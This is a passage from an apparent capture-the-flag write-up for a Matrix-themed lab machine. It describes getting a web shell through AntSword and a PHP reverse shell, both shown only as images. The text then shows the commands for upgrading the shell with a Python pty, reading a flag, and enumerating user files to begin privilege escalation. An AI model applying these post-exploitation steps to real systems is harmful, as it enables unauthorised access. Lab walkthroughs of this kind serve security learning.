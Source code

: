 ![image-20231115144010659](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151440825.png)

And then connect it with AntSword:

![image-20231115144659387](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151446555.png)

### 3. Get the reverse shell

And then we user a php reverse shell to get shell:

![image-20231115150726321](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151507489.png)

And then switch the shell by python:

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
www-data@morpheus:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morpheus:/$ ls
ls
FLAG.txt  boot	dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
bin	  crew	etc  lib   lib64  lost+found  mnt    proc  run	 srv   tmp  var
www-data@morpheus:/$ cat FLAG.txt
cat FLAG.txt
Flag 1!

You've gotten onto the system.  Now why has Cypher locked everyone out of it?

Can you find a way to get Cypher's password? It seems like he gave it to
Agent Smith, so Smith could figure out where to meet him.

Also, pull this image from the webserver on port 80 to get a flag.

/.cypher-neo.png
```

## 4. Privilege Escalation

Now, we need to get root. We can find two user in home:

```shell
www-data@morpheus:/$ ls /home
ls /home
cypher	trinity
www-data@morpheus:/$ find / -user cypher -type f 2>/dev/null
find / -user cypher -type f 2>/dev/null
/FLAG.txt
www-data@morpheus:/$ find / -user trinity -type f 2>/dev/null
find / -user trinity -type f 2>/dev/null
/home/trinity/.bash_logout
/home/trinity/.bashrc
/home/trinity/.profile
```

